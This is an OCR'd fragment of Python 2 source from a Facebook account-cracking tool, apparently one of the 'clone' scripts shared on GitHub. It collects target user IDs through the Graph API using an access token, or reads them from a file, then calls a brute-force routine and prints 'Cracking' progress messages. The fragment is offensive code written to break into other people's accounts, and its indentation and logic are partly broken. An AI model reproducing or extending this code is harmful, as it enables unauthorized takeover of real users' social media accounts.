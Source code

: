 			super()

		print"\033[0;39;40m[•] Getting IDs..."

		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)

		z = json.loads(r.text)

		for i in z['data']:

			id.append(i['id'])

	elif peak =="3":

		os.system('clear')

		print logo

		brute()	

	elif peak =="4":

		os.system('clear')

		print logo                  

		try:

			idlist = raw_input('\033[0;39m[+] \033[0;39mEnter the file name \033[0;39m: \033[0;39m')

			for line in open(idlist,'r').readlines():

				id.append(line.strip())

		except IOError:

			print '\x1b[0;35;39[!] \x1b[0;35;39File not found'

			raw_input('\n\x1b[0;35;39[ \x1b[0;35;39Exit \x1b[0;35;39]')

			super()

	elif peak =="0":

		menu()

	else:

		print "\033[0;39mFill in correctly"

		pilih_super()

		print "\033[0;39;40m[•] Total IDs : \033[0;97m"+str(len(id))

	jalan('\033[0;39;40m[•] Please Wait...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[0;39;40m[•] Cloning\033[0;97m"+o),;sys.stdout.flush();time.sleep(1)

	print "\n\033[0;39m ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"

	print "\033[0;39m Wait Cracking Is Pending"
